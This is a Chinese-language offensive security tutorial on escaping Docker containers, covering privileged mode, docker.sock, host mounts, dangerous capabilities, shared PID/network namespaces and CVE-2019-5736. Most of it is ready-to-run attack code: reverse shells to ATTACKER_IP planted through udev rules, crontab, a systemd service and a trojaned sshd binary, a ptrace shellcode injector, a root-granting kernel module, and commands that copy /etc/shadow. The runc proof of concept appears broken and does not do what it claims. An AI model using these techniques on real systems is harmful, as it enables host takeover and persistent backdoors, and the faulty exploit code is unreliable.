





# Docker逃逸全技巧

> **渗透测试视角 · 容器安全攻击与防御**
> 关联知识：[云上安全渗透测试全技巧](34-cloud-pentest.md) | [Linux安全渗透测试全技巧](03-linux-pentest.md) | [二进制漏洞利用（PWN）全技巧](39-pwn.md)

---

## 一、Docker逃逸基础

### 1.1 什么是Docker逃逸

**Docker逃逸** 指攻击者从容器内部突破隔离边界，获得宿主机权限的过程。成功逃逸意味着攻击者可以从一个受限的容器环境，获得宿主机操作系统的控制权。

```
┌─────────────────────────────────────────────────────────┐
│                     宿主机 (Host)                         │
│  ┌──────────────────────────────────────────────────┐   │
│  │                    用户空间                         │   │
│  │  ┌──────────┐  ┌──────────┐  ┌──────────┐      │   │
│  │  │ Container │  │ Container │  │ Container │      │   │
│  │  │  (逃逸前)  │  │  (正常)   │  │  (正常)   │      │   │
│  │  └─────┬────┘  └──────────┘  └──────────┘      │   │
│  │        │                                          │   │
│  │        ▼  突破命名空间/隔离边界                     │   │
│  │  ┌──────────┐                                     │   │
│  │  │ Container │  →  宿主机 Shell                    │   │
│  │  │  (逃逸后)  ├─────── ROOT !!!                    │   │
│  │  └──────────┘                                     │   │
│  └──────────────────────────────────────────────────┘   │
│  ┌──────────────────────────────────────────────────┐   │
│  │                   内核 Kernel                      │   │
│  └──────────────────────────────────────────────────┘   │
└─────────────────────────────────────────────────────────┘
```

### 1.2 容器隔离原理

Docker 通过以下 Linux 内核特性实现隔离：

| 隔离维度 | 命名空间 (Namespace) | 作用 |
|:--------|:--------------------|:----|
| 文件系统 | `MNT` (Mount) | 隔离挂载点视图 |
| 进程 | `PID` (Process) | 隔离进程编号 |
| 网络 | `NET` (Network) | 隔离网络栈、接口 |
| 主机名 | `UTS` (Unix Timesharing) | 隔离主机名和域名 |
| 进程通信 | `IPC` (Interprocess) | 隔离消息队列、共享内存 |
| 用户/组 | `User` | 隔离用户和组 ID |

**补充限制机制：**

| 机制 | 功能 |
|:----|:----|
| **Capabilities** | 细化 root 权限，放弃 40+ 种特权 |
| **Cgroups** | 限制资源使用（CPU/内存/设备） |
| **Seccomp** | 限制可用的系统调用 |
| **LSM** (AppArmor/SELinux) | 强制访问控制策略 |

### 1.3 容器 vs 虚拟机

| 对比维度 | 容器 (Docker) | 虚拟机 (VM) |
|:--------|:-------------|:-----------|
| 隔离层级 | 进程级（共享宿主机内核） | 硬件级（独立内核） |
| 内核 | **共享宿主机内核** ← 逃逸根源 | 独立内核 |
| 启动时间 | 毫秒级 | 分钟级 |
| 资源开销 | 极低（仅进程） | 较高（完整 OS） |
| 安全性 | ⚠️ 弱（共享内核攻击面大） | ✅ 强 |
| 逃逸影响面 | 宿主机全容器沦陷 | 单台 VM |

> **核心结论：Docker 不是轻量级虚拟机，而是进程隔离。** 共享内核是 Docker 逃逸的根本原因。

### 1.4 逃逸攻击链全景



---

## 二、环境准备与前置检查

### 2.1 靶场环境

```bash
# === 使用 Metasploitable 方式 ===
# 启动一个测试容器（特权模式，演示用）
docker run --rm -it --privileged ubuntu:22.04 bash

# 启动挂载 docker.sock 的容器
docker run --rm -it -v /var/run/docker.sock:/var/run/docker.sock ubuntu:22.04 bash

# 启动挂载宿主机根目录的容器
docker run --rm -it -v /:/host ubuntu:22.04 bash

# 启动带 SYS_ADMIN Capability 的容器
docker run --rm -it --cap-add=SYS_ADMIN ubuntu:22.04 bash

# 启动共享 PID 命名空间的容器
docker run --rm -it --pid=host ubuntu:22.04 bash
```

### 2.2 前置检测（进入容器后）

> 以下命令用于快速判定当前容器是否存在逃逸机会

```bash
# === 0. 确认在容器内 ===
cat /proc/1/cgroup | grep -i docker

# === 1. 检查是否是特权模式 ===
cat /proc/1/status | grep -i cap
# CapEff: 0000003fffffffff  ← 全1表示特权模式
# 正常情况下 CapEff 只有部分位为1
# 可使用 capsh 解码
capsh --decode=$(grep CapEff /proc/1/status | awk '{print $2}')

# === 2. 检查 docker.sock 是否挂载 ===
ls -la /var/run/docker.sock
# srw-rw---- 这意味着可以访问 Docker API

# === 3. 检查宿主机文件系统挂载 ===
mount | grep -E "^/dev|:/"
# 如果有 /dev/sda1 on /host 之类的输出

# === 4. 检查当前 Capabilities ===
cat /proc/1/status | grep Cap
# CapInh: 继承的capabilities
# CapPrm: 允许的capabilities  
# CapEff: 有效的capabilities（实际生效的）
# CapBnd: 边界capabilities
# CapAmb: 环境capabilities

# 人类可读版本
getpcaps 1

# === 5. 检查 Seccomp 过滤 ===
cat /proc/1/status | grep Seccomp
# 0 = 未启用, 1 = strict, 2 = filter (最常见)

# === 6. 检查内核版本（是否可利用已知漏洞） ===
uname -a
cat /etc/os-release

# === 7. 检查 Docker/容器运行时版本 ===
# 容器内不一定有 docker 命令，但可以尝试
docker version 2>/dev/null || cat /proc/version
```

### 2.3 5项前置检测清单

| 编号 | 检查项 | 命令 | 逃逸可能性 |
|:---:|:------|:----|:---------:|
| 1 | 特权模式 | `cat /proc/1/status \| grep CapEff` ≠ `0000003fffffffff` | **高危** 🔴 |
| 2 | docker.sock | `ls -la /var/run/docker.sock` 存在 | **高危** 🔴 |
| 3 | 宿主机挂载 | `mount \| grep /host` | **高危** 🔴 |
| 4 | Capabilities | `getpcaps 1` 包含 SYS_ADMIN/SYS_PTRACE 等 | **中危** 🟡 |
| 5 | 内核版本 | `uname -r` 匹配已知 CVE | **中危** 🟡 |

---

## 三、容器配置不当逃逸（6种常见手法）

### 3.1 特权模式逃逸（--privileged）

**原理：** 特权模式赋予容器**所有 Linux Capabilities**，并允许访问所有宿主机设备。这几乎是"把宿主机root权限交给容器"。

```bash
# === 检测 ===
cat /proc/1/status | grep CapEff
# 若输出: 0000003fffffffff  → 特权模式！

capsh --decode=0000003fffffffff
# 输出: 0000003fffffffff=cap_chown,cap_dac_override,...,cap_sys_admin,...,cap_net_admin,...,cap_sys_rawio,...,cap_sys_module
# 总共 40+ 种 capabilities 全开

# === 逃逸方法1: 挂载宿主机文件系统（最简单） ===
# 查找宿主机设备
fdisk -l
# 或
lsblk

# 挂载宿主机根分区
mkdir -p /mnt/host
mount /dev/sda1 /mnt/host
# 如果 mount 失败，可能是设备名不同，尝试 /dev/vda1, /dev/xvda1 等
chroot /mnt/host bash
# 现在你已经获得宿主机 root shell!

# === 逃逸方法2: 通过 /sys 直接访问 ===
# 有些环境 mount 被禁用，可以通过 sysfs 直接写
mount -t sysfs none /sys
# 查看 block 设备
ls -la /sys/block/
# 直接 dd 读取宿主机文件系统
dd if=/dev/sda1 of=/tmp/root.tar bs=512

# === 逃逸方法3: 利用 udev 添加新设备规则 ===
echo 'ACTION=="add", KERNEL=="sda", RUN+="/bin/bash -c \"bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\""' > /etc/udev/rules.d/99-escape.rules
udevadm control --reload-rules
udevadm trigger
```

### 3.2 docker.sock 挂载逃逸

**原理：** `/var/run/docker.sock` 是 Docker Daemon 的 UNIX Socket，拥有它相当于拥有 **Docker 管理权限**。

```bash
# === 检测 ===
ls -la /var/run/docker.sock
# srw-rw---- 1 root docker ... /var/run/docker.sock

# 或检查 /run/docker.sock
ls -la /run/docker.sock

# === 逃逸方法1: 启动新容器并挂载宿主机根目录 ===
docker run -it -v /:/hostos ubuntu:22.04 bash
# 在新容器中:
chroot /hostos bash
# 获得宿主机 root shell!

# === 逃逸方法2: 使用 docker API 直接交互（无 docker 命令时） ===
# 使用 curl 通过 socket 与 Docker API 通信
# 安装 curl
apt-get update && apt-get install -y curl 2>/dev/null || yum install -y curl 2>/dev/null

# 列出所有容器
curl -s --unix-socket /var/run/docker.sock http://localhost/containers/json

# 创建并启动一个新容器（挂载宿主机根目录）
curl -s --unix-socket /var/run/docker.sock \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "ubuntu:22.04",
    "Cmd": ["bash"],
    "Binds": ["/:/hostos:rw"],
    "Privileged": true,
    "Tty": true,
    "OpenStdin": true
  }' \
  http://localhost/containers/create?name=escape

# 启动容器
curl -s --unix-socket /var/run/docker.sock \
  -X POST \
  http://localhost/containers/escape/start

# 附加到容器
# 需要 websocket 支持，可以用 socat 或 python 实现
# 或者换一种方式：执行命令并获取输出
curl -s --unix-socket /var/run/docker.sock \
  -X POST \
  -H "Content-Type: application/json" \
  -d '{
    "AttachStdout": true,
    "AttachStderr": true,
    "Cmd": ["chroot", "/hostos", "whoami"]
  }' \
  http://localhost/containers/escape/exec

# === 逃逸方法3: 使用 socat 转发 Docker API（最稳定） ===
# 在容器内安装 socat
apt-get update && apt-get install -y socat

# 将 docker.sock 转发为 TCP 端口
socat TCP-LISTEN:2375,fork UNIX-CONNECT:/var/run/docker.sock &

# 然后从外部攻击机连接
docker -H TARGET_IP:2375 run -it -v /:/hostos ubuntu:22.04 bash

# === 逃逸方法4: Python 脚本（无任何外部依赖） ===
python3 -c "
import docker
client = docker.DockerClient(base_url='unix://var/run/docker.sock')
container = client.containers.run(
    'ubuntu:22.04',
    '/bin/bash -c \"chroot /hostos bash -c \\\"cat /etc/shadow > /tmp/shadow\\\"\"',
    volumes={'/': {'bind': '/hostos', 'mode': 'rw'}},
    privileged=True,
    remove=True
)
"
# 注意：如果没装 docker-py，可以使用 socket 原生调用
python3 -c "
import socket, json, sys
sock = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
sock.connect('/var/run/docker.sock')
req = b'POST /containers/create?name=escape2 HTTP/1.1\r\nHost: localhost\r\nContent-Type: application/json\r\nContent-Length: %d\r\n\r\n%s' % (
    len(json.dumps({'Image':'ubuntu:22.04','Cmd':['chroot','/hostos','bash'],'Binds':['/:/hostos:rw'],'Privileged':True,'Tty':True,'OpenStdin':True})),
    json.dumps({'Image':'ubuntu:22.04','Cmd':['chroot','/hostos','bash'],'Binds':['/:/hostos:rw'],'Privileged':True,'Tty':True,'OpenStdin':True}).encode()
)
sock.sendall(req)
print(sock.recv(4096).decode())
"
```

### 3.3 宿主机目录挂载逃逸

**原理：** 管理员为了方便数据共享，将宿主机目录挂载到容器内，如 `/:/host`、`/root:/root` 等。

```bash
# === 检测 ===
mount | grep -E "^/dev|:/"
# 或
df -h | grep -v overlay
# 或
ls -la /host/ 2>/dev/null || ls -la /mnt/ 2>/dev/null

# === 逃逸方法1: 直接 chroot（如果是根目录挂载） ===
chroot /host bash

# === 逃逸方法2: 写入 SSH 公钥（如果 /root/.ssh 被挂载） ===
# 检查挂载的路径
ls -la /host/root/.ssh/
# 如果存在，写入公钥
echo "ssh-rsa AAAA... your_public_key" >> /host/root/.ssh/authorized_keys

# === 逃逸方法3: 修改宿主机计划任务（cron） ===
echo "* * * * * root bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1'" >> /host/etc/crontab

# === 逃逸方法4: 写入 systemd service 实现持久化 ===
cat > /host/etc/systemd/system/escape.service << 'EOF'
[Unit]
Description=Escape Service
[Service]
Type=simple
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"
Restart=always
[Install]
WantedBy=multi-user.target
EOF
chroot /host systemctl enable escape.service
chroot /host systemctl start escape.service

# === 逃逸方法5: 替换宿主机常见二进制（后门） ===
# 如果 /usr/bin 被挂载（较少见，但发生过）
mv /host/usr/bin/sshd /host/usr/bin/sshd.bak
cat > /host/usr/bin/sshd << 'SCRIPT'
#!/bin/bash
bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4445 0>&1" &
/usr/bin/sshd.bak "$@"
SCRIPT
chmod +x /host/usr/bin/sshd
```

### 3.4 Capabilities 滥用逃逸

Docker 默认只给容器赋予有限的 capabilities。某些场景下管理员会手动添加特定 capabilities，可能导致逃逸。

#### 危险 Capabilities 速查表

| Capability | 风险等级 | 逃逸方法 |
|:----------|:--------:|:---------|
| `SYS_ADMIN` | 🔴 高危 | 挂载 cgroup → notify_on_release 逃逸（见第七章） |
| `SYS_PTRACE` | 🔴 高危 | 注入宿主机进程，代码执行 |
| `SYS_RAWIO` | 🔴 高危 | 读写 `/dev/mem`、`/dev/kmem`，直接操作物理内存 |
| `SYS_MODULE` | 🔴 高危 | 加载内核模块，完全控制系统 |
| `DAC_OVERRIDE` | 🟡 中危 | 绕过文件权限检查，读写任意文件 |
| `DAC_READ_SEARCH` | 🟡 中危 | 绕过目录读/搜索权限 |
| `NET_ADMIN` | 🟡 中危 | 修改网络配置，ARP欺骗、嗅探 |
| `SYS_BOOT` | 🟡 中危 | 重启宿主机（DoS） |
| `KILL` | 🟢 低危 | 杀死任意进程 |
| `NET_RAW` | 🟢 低危 | 发送原始网络包 |

> **完整检测：** 使用 `getpcaps 1` 查看当前容器的 capabilities。

#### SYS_ADMIN 逃逸（cgroup 方法，详见第七章）

```bash
# 检测是否拥有 SYS_ADMIN
getpcaps 1 | grep sys_admin

# 标准 cgroup notify_on_release 逃逸
# （详细 POC 见第七章）
```

#### SYS_PTRACE 逃逸

```bash
# === 检测 ===
getpcaps 1 | grep sys_ptrace

# === 原理：使用 ptrace 附加到宿主机进程，注入 shellcode ===
# 由于容器共享 PID 命名空间（--pid=host）或者拥有 SYS_PTRACE
# 可以附加到宿主机进程

# 简易 POC：遍历宿主机进程并注入
apt-get update && apt-get install -y gcc libc6-dev

cat > /tmp/ptrace_inject.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ptrace.h>
#include <sys/wait.h>
#include <sys/user.h>
#include <sys/uio.h>
#include <unistd.h>

// 简单的 execve("/bin/sh", NULL, NULL) shellcode (x86_64)
unsigned char shellcode[] = {
    0x48, 0x31, 0xf6,             // xor rsi, rsi
    0x48, 0x31, 0xd2,             // xor rdx, rdx
    0x48, 0xbb, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x73, 0x68, 0x00, // mov rbx, "/bin/sh\0"
    0x53,                         // push rbx
    0x54,                         // push rsp
    0x5f,                         // pop rdi
    0xb0, 0x3b,                   // mov al, 59 (execve)
    0x0f, 0x05                    // syscall
};

int main(int argc, char *argv[]) {
    if (argc < 2) {
        printf("Usage: %s <pid>\n", argv[0]);
        return 1;
    }
    
    pid_t target = atoi(argv[1]);
    struct user_regs_struct old_regs, regs;
    
    printf("[*] Attaching to PID %d\n", target);
    
    if (ptrace(PTRACE_ATTACH, target, NULL, NULL) == -1) {
        perror("[-] ptrace attach");
        return 1;
    }
    
    waitpid(target, NULL, 0);
    
    // 获取原始寄存器
    ptrace(PTRACE_GETREGS, target, NULL, &old_regs);
    
    // 在目标进程中分配内存
    long addr = ptrace(PTRACE_PEEKTEXT, target, (void*)old_regs.rip, NULL);
    // 简单方式：替换当前的指令为 shellcode
    // 注意：这里需要更完善的内存分配逻辑，这里简化
    for (int i = 0; i < sizeof(shellcode); i += 8) {
        long val = 0;
        memcpy(&val, shellcode + i, 8);
        ptrace(PTRACE_POKETEXT, target, (void*)(old_regs.rip + i), (void*)val);
    }
    
    // 设置寄存器并执行
    memcpy(&regs, &old_regs, sizeof(regs));
    regs.rip = old_regs.rip;  // 从 shellcode 开始执行
    ptrace(PTRACE_SETREGS, target, NULL, &regs);
    
    ptrace(PTRACE_DETACH, target, NULL, NULL);
    printf("[+] Injected! Shellcode executed in PID %d\n", target);
    
    return 0;
}
EOF

gcc -o /tmp/inject /tmp/ptrace_inject.c
# 找到宿主机关键进程 PID
ps aux | grep dockerd  # 或者 grafana, sshd 等
/tmp/inject <PID>
```

#### SYS_RAWIO 逃逸

```bash
# === 检测 ===
getpcaps 1 | grep sys_rawio

# SYS_RAWIO 允许直接访问 /dev/mem, /dev/kmem, /dev/port

# 方法1: 通过 /dev/mem 修改内核内存
# 这通常需要知道内核符号地址

# 方法2: 通过 /dev/port 直接操作 I/O 端口
# 可以操作硬盘控制器读取宿主机文件

# 方法3: 直接读取物理内存中的敏感数据
apt-get update && apt-get install -y dd
dd if=/dev/mem of=/tmp/host_memory.bin bs=1M count=10 2>/dev/null || \
dd if=/dev/kmem of=/tmp/host_kernel.bin bs=1M count=10 2>/dev/null
# 从内存转储中可以提取 ssh 密钥、密码等

# 方法4: 利用 SYS_RAWIO + 已知物理地址读取宿主机数据
# 通过 /proc/iomem 查看物理内存布局
cat /proc/iomem
```

#### SYS_MODULE 逃逸

```bash
# === 检测 ===
getpcaps 1 | grep sys_module

# SYS_MODULE 允许加载/卸载内核模块
# 这基本上就是 root 权限

# === 编写一个简单内核模块，反弹 shell ===
cat > /tmp/escape_module.c << 'EOF'
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/sched.h>
#include <linux/cred.h>
#include <linux/init.h>

static int __init escape_init(void) {
    struct cred *new_cred;
    printk(KERN_INFO "ESCAPE: Module loaded!\n");
    
    // 获取 root 权限
    new_cred = prepare_kernel_cred(NULL);
    if (new_cred) {
        commit_creds(new_cred);
        printk(KERN_INFO "ESCAPE: Root obtained!\n");
    }
    
    return 0;
}

static void __exit escape_exit(void) {
    printk(KERN_INFO "ESCAPE: Module unloaded\n");
}

module_init(escape_init);
module_exit(escape_exit);
MODULE_LICENSE("GPL");
EOF

# 编译
apt-get update && apt-get install -y linux-headers-$(uname -r) build-essential
cat > /tmp/Makefile << 'MAKE'
obj-m += escape_module.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
MAKE

cd /tmp && make

# 加载内核模块
insmod /tmp/escape_module.ko
lsmod | grep escape

# 验证
id
# uid=0(root) gid=0(root)
# 已获得完整的宿主机 root 权限
```

### 3.5 --pid=host 逃逸

**原理：** `--pid=host` 使容器共享宿主机的 PID 命名空间，容器内可以看到宿主机所有进程。

```bash
# === 检测 ===
# 检查 PID 1 是不是宿主机的 init 进程
cat /proc/1/cmdline
# 如果输出 /sbin/init 或 systemd 而不是 docker-init，说明是 --pid=host

# 或者检查进程列表
ps aux
# 如果看到大量宿主机进程（sshd, systemd, dockerd 等）→ --pid=host

# === 逃逸方法1: 通过 ptrace 注入宿主机进程 ===
# 同上 SYS_PTRACE 方法，但不需要 SYS_PTRACE capability
# 只要容器以 --pid=host 运行，且宿主机进程未设置 YAMA

# 检查是否可 ptrace
cat /proc/sys/kernel/yama/ptrace_scope
# 0 = 允许任意 ptrace, 1 = 仅子进程, 2 = 仅管理员, 3 = 禁止

# 安装 gdb 注入任意宿主机进程
apt-get update && apt-get install -y gdb
gdb -p $(pgrep -u root sshd) -x /dev/stdin <<< "call system('bash -c \"bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1\"')"

# === 逃逸方法2: 读取宿主机进程内存 ===
# 通过 /proc/<PID>/mem 读取宿主机进程内存
# 例如读取 sshd 的内存找到密钥
cat /proc/$(pgrep sshd | head -1)/maps
# 或者 dump 整个进程内存
cat /proc/$(pgrep -u root systemd-journal | head -1)/mem > /tmp/dump

# === 逃逸方法3: 利用进程信号 ===
# 可以向宿主机任意进程发送信号
kill -9 ${SOME_CRITICAL_PID}  # DoS

# 向 dockerd 发送信号，尝试重启
kill -HUP $(pgrep dockerd)
```

### 3.6 --network=host 逃逸

**原理：** 共享宿主机网络栈，容器可以监听宿主机所有端口，也可以使用宿主机网络接口。

```bash
# === 检测 ===
# 检查网络接口
ip addr
# 如果看到宿主机物理接口（eth0, ens33 等）而不是 docker 虚拟接口

# 或检查主机名
hostname  # 与宿主机相同

# === 逃逸方法1: 监听宿主机端口 ===
# 在容器内开一个端口，宿主机上也生效
nc -lvp 4444 &
ss -tlnp | grep 4444

# === 逃逸方法2: ARP 欺骗 / 网络嗅探 ===
# 可以在宿主机网络上进行中间人攻击
apt-get update && apt-get install -y dsniff
arpspoof -i eth0 -t TARGET_IP GATEWAY_IP

# 或者安装 tcpdump 抓包
apt-get install -y tcpdump
tcpdump -i any -w /tmp/capture.pcap

# === 逃逸方法3: 利用宿主机网络管理接口 ===
# 如果也同时拥有 NET_ADMIN capability
# 可以修改宿主机 iptables 规则
iptables -L
iptables -A PREROUTING -t nat -p tcp --dport 2222 -j REDIRECT --to-port 22

# === 逃逸方法4: 访问宿主机本地服务 ===
# 可以访问宿主机 localhost 上的服务
curl http://127.0.0.1:8500  # Consul
curl http://127.0.0.1:2375  # Docker API（如果没启用TLS）
curl http://127.0.0.1:10250 # kubelet API
```

---

## 四、Docker软件漏洞逃逸（CVE详解）

### 4.1 CVE-2019-5736 — runc 容器逃逸

> **漏洞等级：** 🔴 严重
> **影响范围：** Docker < 18.09.2, runc < 1.0-rc6
> **利用方式：** 覆盖宿主机 runc 二进制，在下次容器执行时触发

#### 原理

runc 是 Docker 底层的容器运行时。漏洞利用过程：
1. 攻击者在容器内找到 `/proc/self/exe` 指向的 runc 二进制文件句柄
2. 通过该句柄**覆盖**宿主机上的 runc 二进制
3. 当宿主机再次执行 runc（如 `docker exec`）时，恶意代码获得宿主机 root 权限



#### POC

```go
// CVE-2019-5736 POC (Go)
// 编译: GOOS=linux GOARCH=amd64 go build -o exploit exploit.go
package main

import (
    "fmt"
    "io/ioutil"
    "os"
    "os/exec"
    "strconv"
    "syscall"
    "time"
    "unsafe"
)

// 要在宿主机上执行的 payload
const payload = `#!/bin/bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' &
`

func main() {
    // 找到 runc 的 /proc/self/exe 链接
    fd, err := os.Create("/dev/null")
    if err != nil {
        fmt.Println("[-] Cannot create /dev/null:", err)
        return
    }
    
    // 获取当前进程的文件描述符信息
    for {
        // 通过 /proc/self/exe 获取指向 runc 的句柄
        target := "/proc/self/exe"
        
        // 打开目标文件
        f, err := os.OpenFile(target, os.O_RDONLY, 0)
        if err != nil {
            fmt.Println("[-] Cannot open:", err)
            time.Sleep(1 * time.Second)
            continue
        }
        
        // 获取文件描述符
        handle := f.Fd()
        
        // 尝试覆盖
        for i := 0; i < 1000; i++ {
            // 创建临时 payload 文件
            tmpFile := "/tmp/.runc_payload"
            ioutil.WriteFile(tmpFile, []byte(payload), 0755)
            
            // 用 payload 覆盖 runc 二进制
            cmd := exec.Command("/proc/self/fd/" + strconv.Itoa(int(handle)))
            cmd.Stdin = nil
            cmd.Stdout = nil
            cmd.Stderr = nil
            cmd.SysProcAttr = &syscall.SysProcAttr{
                Pdeathsig: syscall.SIGKILL,
            }
            cmd.Start()
            
            time.Sleep(200 * time.Millisecond)
        }
        
        f.Close()
        time.Sleep(1 * time.Second)
    }
}
```

```bash
# === 利用步骤 ===
# 1. 在攻击机上编译
GOOS=linux GOARCH=amd64 go build -o exploit exploit.go

# 2. 将 exploit 上传到容器
scp exploit root@CONTAINER_IP:/tmp/

# 3. 在容器内执行
./tmp/exploit

# 4. 在攻击机上监听
nc -lvp 4444

